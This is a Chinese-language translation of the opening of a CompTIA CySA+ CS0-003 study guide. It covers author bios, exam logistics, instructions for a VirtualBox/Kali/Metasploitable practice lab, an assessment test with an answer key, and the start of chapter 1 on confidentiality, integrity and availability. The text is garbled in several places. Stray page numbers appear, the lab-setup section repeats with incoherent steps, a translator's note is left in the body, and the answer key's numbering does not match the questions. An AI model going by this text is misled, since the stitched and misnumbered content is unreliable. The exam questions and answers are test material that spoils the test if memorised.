# CompTIA CySA+学习指南：考试 CS0-003 (Sybex 学习指南)

6. 关于作者
7. 关于技术编辑
8. 引言
9. 图 8.9 快速原型
11. 用户许可协议
19. 图 6.19 Scout Suite 扫描报告中的 EC2 问题
509. 491
510. 492
511. 493
512. 494
514. 496

> *本书献给 Ric Williams，他是我的朋友、导师，以及在我初次进入商业 IT 世界期间的生死战友。感谢你让我那份“网络清洁工”的工作成为我人生中最美好的经历之一。*
>
> —David Seidl

像这样的书籍的编写离不开许多人的努力，作为作者，我们衷心感谢 Wiley 团队所付出的辛勤工作和奉献精神。我们特别想要感谢高级要书编辑`Kenyon Brown`。我们曾与`Ken`合作过多个项目，并一直非常享受与他共事的时光。

我们还非常感谢本书的编辑和制作团队，包括我们的项目编辑`Lily Miller`，她为项目注入了多年的经验和卓越的才华；我们的技术编辑`Chris Crayton`，他在整本书的编写过程中提供了富有见解的建议和极佳的反馈；我们的制作编辑`Archana Pragash`，她指导我们完成排版、格式设置和最终清理，产出了一本出色的书；以及我们的文字校对`Elizabeth Welch`，她帮助了文本的流畅性。我们还要感谢许多幕后贡献者，包括将书籍和配套材料制作成成品的图形、制作和技术团队。

我们的经纪人来自`Waterside Productions`的`Carole Jelen`在我们的整个写作生涯中不断提供极佳的机会、建议和帮助。

最后，我们要感谢我们的家人和伴侣，感谢他们支持我们完成这类书籍在编写、编辑和出版过程中所付出的无数深夜、忙碌的周末和长时间工作。

# 关于作者

`Mike Chapple, Ph.D., Security+, CySA+, CISSP,`是 50 多部书籍的作者，其中包括畅销书 *CISSP (ISC)*² *Certified Information Security Professional Official Study Guide* (Sybex, 2021) 和 *CISSP (ISC)*² *Official Practice Tests* (Sybex, 2021)。他是一位信息安全专业人士，在高等教育、私营部门和政府领域拥有二十年的经验。

Mike 目前担任圣母河大学 Mendoza 商学院 IT、分析与运营系的教学教授，在那里教授有关网络安全、数据管理和商业分析的本科和研究生课程。

在回到圣母河之前，Mike 曾担任位于迈阿密的营销咨询公司`Brand Institute`的执行副总裁兼首席信息官。Mike 还曾在国家安全局的信息安全研究小组工作过四年，并曾是美国空军的现役情报官。

Mike 在圣母河大学获得了计算机科学与工程的`B.S.`和`Ph.D.`学位。Mike 还拥有爱达荷大学的计算机科学`M.S.`学位和奥本恩大学的`MBA`学位。Mike 拥有网络安全分析师+ (`CySA+`)、`Security+`、认证信息安全经理 (`CISM`)、认证云安全专业人员 (`CCSP`) 和认证信息系统安全专家 (`CISSP`) 认证。他在自己的网站`CertMike.com`上提供安全认证资源。

`David Seidl, CySA+, CISSP, PenTest+,`是迈阿密大学的信息技术副总裁兼首席信息官 (`CIO`)。在他的 IT 职业中，他担任过多种技术和信息安全职位，包括圣母河大学校园技术服务高级总监，在那里他共同领导了圣母河大学的云迁移，并监督了云运营、`ERP`、`数据库`、`身份管理`以及广泛的其他技术和服务。他还曾担任过圣母河大学信息安全总监，并领导了该校的信息安全计划。他曾作为圣母河大学 Mendoza 商学院的讲师教授信息安全和网络本科课程，并编写了 18 本关于安全认证和网络战争的书籍，包括合著 *CISSP (ISC)*² *Official Practice Tests* (Sybex, 2021) 以及本书和配套书籍 *CompTIA CySA+ Practice Tests* (Sybex, 2020, 2018) 的之前的版本。

David 拥有东密根大学的通信技术学士学位和信息安全硕士学位，以及`CISSP`、`CySA+`、`Pentest+`、`GPEN`和`GCIH`认证。

# 关于技术编辑

`Chris Crayton, MCSE, CISSP, CASP, CySA+, A+, N+, S+,`是技术顾问、培训师、作者和行业领先的技术编辑。他曾担任过计算机技术和网络教师、信息安全总监、网络管理员、网络工程师和 PC 专家。Chris 曾在几家领先出版公司的众多技术著作中担任技术编辑和内容贡献者。他还获得了许多专业和教学奖项。

# 引言

*CompTIA^® CySA+ (网络安全分析师) Study Guide: Exam CS0-003, 第三 Edition,* 为构成网络安全分析师+ 认证的考试目标提供了易懂的解释和实战知识。本书将帮助你在参加考试之前评估自己的知识，并为你所在可能想要扩展技能或专业知识的领域进一步学习提供阶石。

在应对`CySA+`考试之前，你应该已经是一名安全从业人员了。`CompTIA`建议应考者具有大约四年的实操信息安全经验。你还应该熟悉书中描述的某些工具和技术。你不需要了解每一个工具，但理解如何利用现有经验来处理可能不熟悉的新场景、工具或技术，对于通过`CySA+`考试至关重要。

## CompTIA

`CompTIA`是一个非营利贸易组织，提供各种 IT 领域的认证，从 PC 支持技术员所需的技能（由`A+`考试涵盖）到 CompTIA 高级安全专家 (`CASP+`) 等高级认证。

`CompTIA`建议从业人员遵循所示的网络安全职业路径：


网络安全分析师考试是一项更高级的考试，面向具有实操经验并掌握之前考试知识的专业人士。

`CompTIA`认证获得了`ISO`和`ANSI`认证，并在多个行业中作为技术技能和知识的衡量标准。此外，包括`CySA+`、`Security+`和`CASP+`在内的`CompTIA`认证已被美国政府批准为信息基准认证，并包含在技能激励项目中。

## 网络安全分析师考试

网络安全分析师考试（`CompTIA`称为`CySA+`）旨在为网络安全、威胁和漏洞分析师提供厂商中立的认证。`CySA+`认证专为安全分析师、工程师以及安全运营中心 (`SOC`) 人员、漏洞分析师和威胁情报分析师设计。它聚焦于安全分析以及安全工具在现实场景中的实际应用。它涵盖四个主要领域：`安全运营`、`漏洞管理`、`事件响应与管理`以及`报告与通信`。这四个领域包含了从侦察到事件响应和取证的各种主题，并侧重于基于场景的学习。

`CySA+`考试位于初级`Security+`考试和 CompTIA 高级安全专家 (`CASP+`) 认证之间，为那些寻求认证和职业路径上更进一步的人士提供了中级职业认证。

CySA+ 考试采用 CompTIA 所称为“基于性能的评估（performance-based assessment）”格式。这意味着考试通过实际安全工具和场景进行实操模拟，以执行与安全从业人员日常工作相匹配的任务。考试题可能包括多种类型的题目，例如单选题、填空题、多选题、拖放题以及基于图像的问题。

CompTIA 建议考者在参加此考试之前具有四年的信息安全相关经验。在本书编写时，美国地区的考试费用为 392 美元，全球其他地区的价格也相相当。关于 CySA+ 考试及如何参加考试的更多信息，可以访问`www.comptia.org/certifications/cybersecurity-analyst`查找。

# 学习与备考建议

像这样一本备考书无法教你考试中可能出现的每种安全软件包、场景或特定技术。相反，在阅读本书时，你应该关注自己是否熟悉某类技术、工具、流程或场景的类型或类别。如果你发现了自己的短板，可能希望寻找额外的工具来帮助你深入了解这些主题。

用于实操练习的额外资源包括：

* `Exploit Exercises`在`http://Exploit-Exercises.com`提供了涵盖广泛安全问题的虚拟机、文档和挑战。
* `Hacking-Lab`在`hacking-lab.com`提供了各个领域的攻防夺旗赛（CTF）练习。
* `PentesterLab`在`http://pentesterlab.com/exercises`提供基于订阅的渗透测试练习访问。

由于考试采用基于场景的学习模式，请预计题目将涉及分析和思考，而不是依赖于简单的记忆。正如你预期的那样，在书中复制这种体验是不可能的，因此这里的题目旨在帮助你确信自己已经足够熟悉该主题，能够思考应对实操练习。

# 参加考试

一旦你完全准备好参加考试，可以访问 CompTIA 网站购买考试券：

```
http://store.comptia.org
```

目前，CompTIA 提供两种参加考试的选项：在测试中心参加线下考试，以及在您自己的电脑上参加的居家考试。

## 线下考试

CompTIA 与 Pearson VUE 的测试中心建立了合作伙伴关系，因此你的下一步是找到你附近的测试中心。在美国，你可以根据地址或邮政编码进行查找，而非美国以外的考者可能会发现输入城市和国家更方便。你可以在 Pearson Vue 网站搜索附近的测试中心，在那里你需要导航到“查找测试中心（Find a test center）”。

```
https://home.pearsonvue.com/comptia
```

确定想在哪里参加考试后，只需设置一个 Pearson VUE 测试账户并在其网站上预约考试。

考试当天，请携带两种身份证明，并确保在考试开始前尽早到达。记住，你无法携带笔记、电子设备（包括手机和手表）或其他材料进入现场。

## 居家考试

CompTIA 还提供了使用 Pearson Vue 远程监考服务的居家考试选项。使用这种方法的候选人将在家中或办公室考试，由远程监考通过摄像头进行监考。

你可以通过访问以下网址了解更多关于居家考试的信息：

```
www.comptia.org/testing/testing-options/take-online-exam
```

# 安全分析师+ 考试之后

一旦参加完考试，你将立即收到分数，因此你可以立刻知道是否通过了测试。你应该将你的成绩单与考试注册记录以及注册考试时使用的电子邮件地址进行备份。

## 维护你的认证

CompTIA 认证必须定期续期。要续签你的认证，你可以通过通过最新版本的考试、获得符合条件的高级 CompTIA 或行业认证，或者完成足量的持续教育活动以获得足够的持续教育学分（CEUs）来进行续期。

CompTIA 通过其网站提供有关续期的信息：

```
www.comptia.org/continuing-education
```

当你注册续签认证时，将要求你同意 CE 计划的伦理守则、支付续期费并提交你所选续期方法所需的材料。

你可以用于获取助力续签 CySA+ 所需 CEUs 的行业认证完整列表可以在此处找到：

```
www.comptia.org/continuing-education/choose/renew-with-a-single-activity/earn-a-higher-level-comptia-certification
```

# 本书涵盖了什么？

本书旨在涵盖 CySA+ 考试包含的四个领域。

* **第 1 章: 当代安全分析师** 本书首先教你如何评估网络安全威胁，以及如何评估和选择控制措施以保持你的网络和系统安全。
* **第 2 章: 系统与网络架构** 理解构成你组织基础设施的底层架构将帮助你防御组织。在本章中，你将探索无服务器（serverless）、容器化技术以及虚拟化概念。你还将探索日志与记录、网络架构与设计概念、身份与访问管理概念，以及如何使用加密进行安全数据保护。
* **第 3 章: 恶意活动** 分析事件和识别恶意活动是许多安全专业人员工作的关键部分。在本章中，你将探索如何监控和检测基于主机、基于网络和基于应用的攻击以及入侵指标（IOC）。你还将探索日志、电子邮件和其他工具和数据源如何作为调查的一部分使用。
* **第 4 章: 威胁情报** 安全专业人员需要充分理解威胁，以预防它们或限制其影响。在本章中，你将学习许多类型的威胁情报，包括来源以及评估给定威胁情报来源相关准确性的方法。你将发现如何在你的组织中使用威胁情报。
* **第 5 章: 侦察与情报收集** 获取有关组织及其系统的信息是攻击者和防御者都会做的。在本章中，你将学习如何使用流行的工具和技术获取组织情报。你还将学习限制针对你自身组织的情报收集的影响。
* **第 6 章: 设计漏洞管理计划** 管理漏洞有助于保持你的系统安全。在本章中，你将学习如何使用定义的工作流和持续评估方法来识别、优先排序并修复漏洞。
* **第 7 章: 分析漏洞扫描** 漏洞报告可能包含大量关于系统潜在问题的庞数据。在本章中，你将学习如何阅读和分析漏洞扫描报告、CVSS 评分是什么及其含义，以及如何选择适当的操作来修复你发现的问题。

# 第 8 章：响应漏洞

在`[c08.xhtml]`中，在本章中，我们将关注发现漏洞后发生的情况——组织对其环境中存在的漏洞采取响应的方式。我们将从概述风险管理过程开始，然后深入探讨响应漏洞的某些特定方法。

# 第 9 章：构建事件响应计划

在`[c09.xhtml]`中，在本章中，我们重点关注构建正式的事件响应处理计划和团队。你将学习事件处理每个阶段的细节，从准备、检测与分析、遏制、根除和恢复，到最后的事件后恢复，以及如何对事件进行分类和进行相关沟通。

# 第 10 章：事件检测与分析

在`[c10.xhtml]`中，在本章中，安全专业人员将监控妥陷指标（IoCs），一旦发现，将对其进行分析以确定是否发生了事件。在本章中，你将探索与网络、系统、服务和应用程序相关的`IoCs`。你还将深入数据和日志分析以及证据获取与分析。

# 第 11 章：遏制、根除与恢复

在`[c11.xhtml]`中，一旦事件发生并完成了事件响应的初始阶段，你就需要努力从事件中恢复。该过程涉及遏制事件以确保不再发生进一步的问题，然后致力于根除恶意软件、根内核程序和其他受侵害元素。一旦事件被清理，就可以开始恢复阶段，包括报告和为未来的问题做准备。

# 第 12 章：报告与沟通

在`[c12.xhtml]`中，沟通和报告是确保组织消化并使用有关漏洞和事件信息的关键。在本章中，你将同时探索与漏洞管理和事件响应相关的沟通。你将探索如何利用漏洞管理和风险评分，同时理解修复的最常见阻因素。你还将查看事件报告、如何与利益相关者互动，以及如何收集和利用教训。

# 第 13 章：执行取证分析与事件响应技术

在`[c13.xhtml]`中，了解系统、设备或网络上发生了什么（无论是作为事件的一部分还是出于其他目的）通常涉及取证分析。在本章中，你将学习如何构建取证能力以及如何使用取证工具包中的关键工具。

# 附录：复习题答案

在`[b01.xhtml]`中，附录包含了你在每章末尾看到的复习题答案。

## 学习指南元素

本学习指南使用了许多常用元素来帮助你准备。这些包括：

* **总结 (Summaries)**：每章的`Summary`部分简要解释该章节的内容，让你能够轻松理解其涵盖的内容。
* **考试要点 (Exam Essentials)**：`Exam Essentials`关注主要的考试主题以及你应该带入考试的关键知识。`Exam Essentials`关注`CompTIA`提供的考试目标。
* **复习题 (Review Questions)**：每章末尾的一系列问题将帮助你评估自己的知识，并根据你对该章节主题的了解判断是否已准备好考试。
* **实验练习 (Lab Exercises)**：书面实验提供了更深入的实践机会，以扩展你的技能，并为`CySA+`考试中的性能测试做好更好的准备。

## 交互式在线学习环境与题库

我们整合了一些非常棒的在线工具，帮助你通过`CompTIA CySA+`考试。随《CompTIA® CySA+ 学习指南：考试 CS0-003》一起提供的交互式在线学习环境提供了题库和学习工具，帮助你准备考试。通过使用这些工具，你可以大大增加首次通过考试的概率。

在线题库包含以下内容：

### 示例测试 (Sample Tests)

书中和在线都提供了许多练习题，包括引言末尾的`Assessment Test`中的问题以及`Chapter Tests`（章节测试）中的问题（后者包含了每章末尾的复习题）。此外，还有一个自定义模拟考试。使用所有的练习题来测试你对学习指南内容的掌握情况。在线题库可在多个设备上运行。

### 闪卡 (Flashcards)

在线题库包含 100 多张专门编写用于测试你知识的闪卡，所以如果一开始没有全部通过也不要气馁！它们是为了确保你掌握了关键术语和概念，并真正为考试做好了准备。别担心——有了复习题、模拟考试和闪卡，当考试日来临时你将准备充分！问题以数字闪卡格式提供（一个问题后跟一个单一正确答案）。你可以使用闪卡来强化学习，并在考试前进行最后的冲刺。

### 其他学习工具 (Other Study Tools)

书中关键术语及其定义的表以完全可搜索的`PDF`格式提供。

## CompTIA CySA+ 考试 CS0-003 目标映射

以下针对`CompTIA CySA+`认证考试的目标映射将使你能够找到书中涵盖考试每个目标的章节。

### 目标映射 (Objectives Map)

| 目标 (Objective) | 章节 (Chapter(s)) |
| :--- | :--- |
| **1.0 安全运营** | |
| 1.1 解释系统和网络架构概念在安全运营中的性 | `2` |
| 1.2 根据场景分析潜在恶意活动指标 | `3` |
| 1.3 根据场景，使用适当的工具或技术确定恶意活动 | `3` |
| 1.4 对比威胁情报与威胁狩猎概念 | `4` |


| 1.5 解释效率和流程改进在安全运营中的性 | `1` |

| **2.0 漏洞管理** | |

| 2.1 根据场景实施漏洞扫描方法和概念 | `1`, `5`, `6`, `7`, `8` |

| 2.2 根据场景分析来自漏洞评估工具的输出 | `5`, `6`, `8` |

| 2.3 根据场景分析数据对漏洞排序 | `7` |

| 2.4 根据场景，建议缓解攻击和软件漏洞的措施 | `7` |

| 2.5 解释与漏洞响应、处理和管理的概念 | `8` |

| **3.0 事件响应与管理** | |

| 3.1 解释与攻击框架相关的概念 | `9` |

| 3.2 根据场景执行事件响应活动 | `9`, `10`, `11`, `13` |

| 3.3 解释事件管理周期中的准备阶段和事件后阶段 | `9`, `13` |

| **4.0 报告与沟通** | |

| 4.1 解释漏洞管理报告和沟通的重要性 | `12` |

| 4.2 解释事件响应报告和沟通的重要性 | `12` |

为了构建一个基础的虚拟安全实验环境来运行场景，并学习书中使用的应用程序和工具，你需要一个虚拟化程序和虚拟机。除了本例中的工具外，还有许多优秀的面向安全的发行版和工具，随着你经验的积累，你可能想要探索如 `Security Onion`、`SANS SIFT` 取证发行版以及 `CAINE` 等工具。

运行虚拟机可能需要性能相当的 PC。我们建议使用 `i5` 或 `i7`（或等效）CPU、至少 `8 GB` 的 `RAM` 以及 `20 GB` 的可用虚拟机磁盘空间。

### VirtualBox

`VirtualBox` 是一个适用于 x86 计算机的虚拟化软件软件包，适用于 Windows、macOS 和 Linux。你可以在 `www.virtualbox.org/wiki/Downloads` 下载 `VirtualBox`。

如果你更熟悉 `VMware` 或 `Hyper-V` 等其他虚拟化工具，也可以使用这些工具；但是，你可能需要调整或修改这些指令，以处理你所喜的虚拟化环境工作方式的差异。

### Kali Linux

`www.kali.org/downloads` 提供了多个版本的 `Kali Linux`，包括预构建的虚拟机。如果你正在遵循这些指令，建议下载最新版本的 `Kali Linux 64-bit` `VirtualBox` 虚拟机；如果你使用替代方案，请下载适用于你虚拟化工具的版本。你需要解压下载的文件才能使用。

### Metasploitable

你可以在 `http://sourceforge.net/projects/metasploitable` 下载 `Metasploitable` 虚拟机。与 `Kali Linux` 一样，你需要解压文件才能使用。

`VirtualBox` 期望虚拟机为 `OVF` 格式，因此你需要将 `Metasploitable` 的 `VMware` 文件转换为 `OVF`。你可以使用来自 `https://developer.vmware.com/web/tool/4.4.0/ovf` 的 `VMware` `Open Virtualization Format Tool` (`ovftool`) 来进行此更改。你需要创建一个 `VMware` 账户来下载文件。如何进行更改的指令可以在 `https://theautomationblog.com/converting-a-vmware-vmx-file-for-use-in-virtualbox` 找到。

在用于准备这些指令的系统中，这意味着要导航到 `C:\Program Files\VMware\Vmware OVF Tool\`，然后运行命令行：`ovftool.exe C:\Users\sampleuser\Downloads\metasploitable-linux-2.0.0\Metasploitable2-Linux\Metasploitable.vmx C:\Users\sampleuser\Downloads\metasploitable.ova` 以在临时下载文件夹中创建 `OVA` 文件。你可能想将文件放在另一个位置。

### 设置你的环境

设置 `VirtualBox` 非常简单。首先，安装 `VirtualBox` 应用程序。一旦安装并选择了语言，你应该应该看到一个类似图 I.1 所示的 `VirtualBox` 窗口。


图 I.1 VirtualBox 主界面

要添加 `Kali Linux` 虚拟机，点击“添加”按钮。导航到你下载 `Kali VM` 的目录并添加虚拟机。按照向导引导你完成导入过程，完成后，你可以继续执行这些指令。

1. 在 `VirtualBox` 主窗口中点击“新建”。
2. 点击图 I.2 所示的“专家模式”按钮并命名，并在向导引导你完成导入过程时遵循操作，完成后，你可以继续执行这些指令。
3. 一旦安装并选择了语言。

   你需要创建一个 `VMware` 账户来下载文件。如何进行更改的指令可以在 `https://theautomationblog.com/converting-a-vmware-vmx-file-for-use-in-virtualbox` 找到。

   在用于准备这些指令的系统中，这意味着要导航到 `C:\Program Files\VMware\Vmware OVF Tool\`，然后运行命令行：`ovftool.exe C:\Users\sampleuser\Downloads\metasploitable-linux-2.0.0\Metasploitable2-Linux\Metasploitable.vmx C:\Users\sampleuser\Downloads\metasploitable.ova` 以在临时下载文件夹中创建 `OVA` 文件。你可能想将文件放在另一个位置。


`VirtualBox`是一个适用于 x86 计算机的虚拟化软件包，适用于 Windows、macOS 和 Linux。你可以在`www.virtualbox.org/wiki/Downloads`下载`VirtualBox`。

如果你更熟悉`VMware`或`Hyper-V`等其他虚拟化工具，也可以使用这些工具；但是，你可能需要调整或修改这些指令，以处理你所喜欢的虚拟化环境工作方式的差异。

## Kali Linux

`www.kali.org/downloads`提供了多个版本的`Kali Linux`，包括预构建的虚拟机。如果你正在遵循这些指令，建议下载最新版本的`Kali Linux 64-bit` `VirtualBox`虚拟机；如果你使用替代方案，请下载适用于你虚拟化工具的版本。你需要解压下载的文件才能使用。

## Metasploitable

你可以在`http://sourceforge.net/projects/metasploitable`下载`Metasploitable`虚拟机。与`Kali Linux`一样，你需要解压文件才能使用。

`VirtualBox`期望虚拟机为`OVF`格式，因此你需要将`Metasploitable`的`VMware`文件转换为`OVF`。你可以使用来自`https://developer.vmware.com/web/tool/4.4.0/ovf`的`VMware` `Open Virtualization Format Tool`（`ovftool`）来进行此更改。你需要创建一个`VMware`账户来下载文件。如何进行更改的指令可以在`https://theautomationblog.com/converting-a-vmware-vmx-file-for-use-in-virtualbox`找到。

在用于准备这些指令的系统中，这意味着要导航到`C:\Program Files\VMware\Vmware OVF Tool\`，然后运行命令行：`ovftool.exe C:\Users\sampleuser\Downloads\metasploitable-linux-2.0.0\Metasploitable2-Linux\Metasploitable.vmx C:\Users\sampleuser\Downloads\metasploitable.ova`以在临时下载文件夹中创建`OVA`文件。你可能想将文件放在另一个位置。

## 设置你的环境

设置`VirtualBox`非常简单。首先，安装`VirtualBox`应用程序。一旦安装并选择了语言，你应该看到一个类似图 I.1 所示的`VirtualBox`窗口。


图 I.1 VirtualBox 主界面

要添加`Kali Linux`虚拟机，点击“添加”按钮。导航到你下载`Kali VM`的目录并添加虚拟机。按照向导引导你完成导入过程，完成后，你可以继续执行这些指令。

1. 在`VirtualBox`主窗口中点击“新建”。
2. 点击图 I.2 所示的“专家模式”按钮并命名，并在向导引导你完成导入过程时遵循操作，完成后，你可以继续执行这些指令。
3. 一旦安装并选择了语言。

你需要创建一个`VMware`账户来下载文件。如何进行更改的指令可以在`https://theautomationblog.com/converting-a-vmware-vmx-file-for-use-in-virtualbox`找到。

（注：由于提供的原文中存在大量重复的段落，译文已根据“不要重复”的要求进行了去重处理）

# 1. 机密性

# 2. 完整性

# 3. 不可变性

# 4. 可用性

# 4. 哪种漏洞扫描方法在扫描期间能提供最准确的细节？

1. 黑盒/未知环境
2. 身份验证
3. 内部视图
4. 外部视图

# 5. 安全研究人员最近在微软 Edge 浏览器的 Chakra JavaScript 脚本引擎发现了一个漏洞，该漏洞可以通过特殊构造的网站允许远程执行或拒绝服务。该漏洞的 CVSS 3.1 分为：

```
CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:H/I:H/A:H
```

根据此评分，攻击向量是什么？对完整性的影响是什么？

1. 系统，9，8
2. 浏览器，高
3. 网络，高
4. 无，高

# 6. Alice 是一名安全工程师，负责为她的组织执行漏洞扫描。她在其中一次扫描中遇到了误报（false positive）错误。她应该如何处理？

1. 确认这是一个误报，然后记录该异常。
2. 实施变通方案。
3. 更新漏洞扫描器。
4. 使用身份验证扫描，然后记录该漏洞。

# 7. 事件响应过程中的哪个阶段最可能包含收集额外证据（如支持法律行动的信息）？

1. 准备
2. 检测与分析
3. 抑制、根除与恢复
4. 事后活动与报告

# 8. 下列描述中哪项解释了完整性丢失？

1. 系统下线，导致业务收入损失。
2. 敏感或专有信息被更改或删除。
3. 受保护的信息被访问或外泄。
4. 敏感的个人身份信息被访问或外泄。

# 9. Hui 的事件响应计划使用指标来判断其对 IoC（入侵指标）馈的订阅和使用是否符合组织需求。如果 Hui 想评估他们对 IoC 馈的使用，以下哪种事件响应指标最有用？

1. 告警量指标
2. 平均响应时间指标（MTTR）
3. 平均检测时间指标（MTTD）
4. 平均修复时间指标

# 10. Abdul 的监控检测到，一个怀疑已被入侵并参与僵尸网络的系统正在向一组远程 IP 地址发送定期流量。这被称为什么？

1. 异常 Ping
2. 探测
3. 僵尸闲聊（Zombie chatter）
4. 信标行为（Beaconing）

# 11. 使用哪种行业标准来描述风险评分？

1. CRS
2. CVE
3. RSS
4. CVSS

# 12. 使用哪个术语来描述保留待决或进行中的诉讼相关的数据和信息？

1. 保护（Preservation）
2. 法律留存（Legal hold）
3. 刑事留存（Criminal hold）
4. 取证存档（Forensic archiving）

# 13. 在取证调查期间，Maria 发现了犯罪已发生的证据。组织通常会做什么来确保执法部门可以使用数据起诉犯罪？

1. 安全擦除驱动器以防止进一步问题
2. 为取证数据记录监管链（chain of custody）
3. 仅在原始存储介质上进行取证调查
4. 立即实施法律留存

# 14. Oscar 的经理要求他确保被入侵的系统已完全清除入侵残留。Oscar 的最佳行动方案是什么？

1. 使用杀病毒工具移除任何相关的恶意软件。
2. 使用反恶意软件工具完全扫描并清理系统。
3. 擦除并重建系统。
4. 恢复最近的备份。

# 15. 下列哪项操作不是事件响应过程中恢复阶段的常见活动？

1. 审查账户并添加新权限
2. 验证系统上只有授权的用户账户
3. 验证所有系统是否正在正常记录日志
4. 对所有系统进行漏洞扫描

# 16. 像“工作站必须……”之类的陈述可能是哪份文档的一部分？

1. 策略（Policies）
2. 标准（Standards）
3. 规程（Procedures）
4. 指南（Guidelines）

# 17. 防火墙是哪种类型控制示例？

1. 预防性（Preventive）
2. 检测性（Detective）
3. 响应性（Responsive）
4. 纠正性（Corrective）

# 18. Cathy 想要收集入侵指标（IoC）。以下哪项不是常见的？

1. 带宽消耗
2. 网络攻击
3. 计划更新
4. 意外流量

# 19. Nick 想要分析恶意软件。以下哪项最合适？

1. Strings（字符串）
2. SIEM
3. VirusTotal
4. Cuckoo

# 20. 哪种软件开发模型使用线性开发？

1. 瀑布模型（Waterfall）
2. 敏捷模型（Agile）
3. RAD
4. 螺旋模型（Spiral）

## 测试答案

1. **C**。蜜罐（Honeypots）是设计成看起来是有吸引力的目标。当受到攻击时，它们为防御者提供了观察攻击者如何操作的机会。`sinkholes`（陷洞）向恶意软件提供虚假信息，重定向关于命令与控制（C&C）系统的查询。`darknets`（暗网）是未使用的空间段，通过监控来检测流量。`Crackpots`是古怪的人——不是你遇到的系统。

2. **A**。冗余系统，特别是当在多个位置运行并采取其他确保可用性的保护时，可以帮助可用性。

3. **B**。身份验证（或凭据）扫描提供了系统最详细的视图。黑盒评估假设对系统一无所知，且没有凭据或代理与系统交互。内部视图通常比外部视图提供更多细节，但两者都没有提供凭据允许的相同详细程度。

4. **C**。读取 CVSS 评分时，`AV`是攻击向量。在这里，`N`表示网络。机密性（C）、完整性（I）和可用性（A）列在最后，这三项在此 CVSS 评分中都被评为“高”。

5. **A**。当 Alice 在扫描中遇到误报错误时，她的首要行动应该是验证它。这可能涉及运行更深入扫描（如身份验证扫描），但也可能涉及寻求系统管理员的帮助、检查文档或其他验证操作。完成后，她应该记录该异常以便妥善跟踪。

7. **C**。事件的**包含、根除和恢复**阶段包括限制损害和记录已发生情况的步骤，包括可能识别攻击者及其用于攻击的工具。这意味着法律行动所需的有用信息最有可能在此阶段收集。要了解更多关于此主题的信息，请参阅第 9 章。

8. **B**。完整性破坏涉及数据被修改或删除。系统离线是一个可用性问题，受保护的信息被访问可能被归类为专有信息泄露，而敏感的个人身份信息泄露通常被归类为隐私泄露。要了解更多关于此主题的信息，请参阅第 9 章。

9. **C**。IoC（入侵指标）用于改进检测，Hui 知道收集平均检测时间指标将帮助组织确定其对 IoC 馈的使用是否提高了检测速度。告警量由告警的配置和维护驱动，它无法判断 IoC 的使用是否恰当。响应时间和修复时间更适合用于衡量组织的流程和程序。要了解更多关于此主题的信息，请参阅第 12 章。

10. **D**。从受损系统到命令与控制节点的定期流量被称为“信标行为”（beaconing）。异常 ping 可以描述意外的 ping，但它们通常不是僵尸行为的一部分，“僵尸聊天”（zombie chatter）是一个虚构的术语，而探测在某些情况下是扫描行为的一部分。要了解更多关于此主题的信息，请参阅第 4 章。

11. **D**。通用漏洞评分系统（CVSS）用于对风险进行评分和描述。CVE（常见漏洞和披露）对漏洞进行分类。RSS（实时简单摘要聚合）用于创建网站的馈送。CRS 是为了本题而虚构的。要了解更多关于此主题的信息，请参阅第 12 章。

12. **B**。`legal hold`（法律保留）一词用于描述保留与待决或活跃的法律调查相关的数据和信息。保护（Preservation）是一个更广泛的术语，用于描述出于各种原因（包括业务需求）而保留数据。刑事保留（Criminal hold）和取证存档（forensic archiving）是为了本题而虚构的。要了解更多关于此主题的信息，请参阅第 13 章。

13. **B**。记录适当的监管链（chain of custody）将使执法部门更有可能在法庭成功使用取证数据。擦除驱动器会导致数据丢失，取证检查是在副本而非原始驱动器上进行的，法律保留是为了在诉讼发生或可能发生时保护数据。

14. **C**。确保系统不再处于受损状态最万无一失的方法是对其进行擦除并重建。在完全不知道受损何时发生的情况下，恢复备份可能没有帮助，而且反恶意软件和防病毒软件包并不能总是确保没有残留的受损，特别是当攻击者创建了账户或进行了其他不会被检测为恶意软件的更改。要了解更多关于此主题的信息，请参阅第 11 章。

15. **A**。恢复阶段通常不寻求添加新权限。验证仅存在合法账户、所有系统都正确记录日志以及系统已进行漏洞扫描都是事件响应恢复阶段的共同部分。要了解更多关于此主题的信息，请参阅第 11 章。

16. **B**。该陈述最可能是标准的一部分。策略包含管理意图的高层陈述；标准为策略的执行提供强制性要求，包括如问题中提供的此类陈述。程序（procedure）将包含逐步执行的过程，而指南（guideline）描述了最佳实践或建议。要了解更多关于此主题的信息，请参阅第 8 章。

17. **A**。防火墙的主要目的是在恶意流量进入网络之前将其拦截，从而防止安全事件发生。因此，它最好被归类为预防性控制。要了解更多关于此主题的信息，请参阅第 8 章。

18. **C**。网络连接设备上的计划更新是正常活动。潜在恶意活动的常见指标包括带宽消耗、信标行为、不规则的点对点通信、非法设备、扫描、异常的流量激增以及意外端口上的活动。要了解更多关于此主题的信息，请参阅第 3 章。

19. **D**。Cuckoo Sandbox（布谷沙箱）是潜在答案列表中唯一在本地安装并运行的沙箱，它通过在安全的沙箱环境中运行来分析潜在的恶意软件。要了解更多关于此主题的信息，请参阅第 3 章。

20. **D**。螺旋模型（Spiral model）使用了类似于瀑布模型的线性开发概念，但在其生命周期中重复四个阶段：需求收集、设计、构建和评估。要了解更多关于此主题的信息，请参阅第 8 章。

# 领域 I

## 安全运营

# 第 1 章

## 网络安全分析师

网络安全分析师负责保护其组织信息和信息系统的机密性、完整性和可用性。履行这一责任需要对信息安全采取深度防御方法，使用多个重叠的安全控制措施来实现每个网络安全目标。它还要求分析师对组织面临的威胁环境有深入的理解，以便开发出能够应对并解决这些威胁的控制措施。

在本章的第一部分，你将学习如何评估组织面临的网络安全威胁，并确定它们对操作机密性、完整性和可用性构成的风险。在后续章节中，你将学习可以采取的控制措施来保护网络和终端，并随着时间的推移评估这些控制措施的有效性。

## 网络安全目标

当大多数人考虑到网络安全时，他们会想象黑客试图入侵组织的系统并窃取敏感信息，从社会安全号码、信用卡到机密军事信息。虽然保护敏感信息免受未经授权的泄露无疑是安全计划的一个要素，但理解网络安全实际上有三个互补的目标很重要，如图 1.1 所示。

**图 1.1** 网络安全的三个关键目标是机密性、完整性和可用性。

机密性确保个人无法访问敏感信息。网络安全专业开发并实施安全控制，包括防火墙、访问控制列表和加密，以防止对信息的非法访问。攻击者可能试图破坏机密性控制措施来实现其目标之一：敏感信息的未经授权泄露。

完整性确保信息或系统没有发生未经授权的修改，无论是故意还是无意的。完整性控制（如哈希和完整性监控解决方案）旨在执行这一要求。完整性威胁可能来自寻求未经授权的更改信息的攻击者，也可能来自非恶意来源，例如电压波动导致信息损坏。

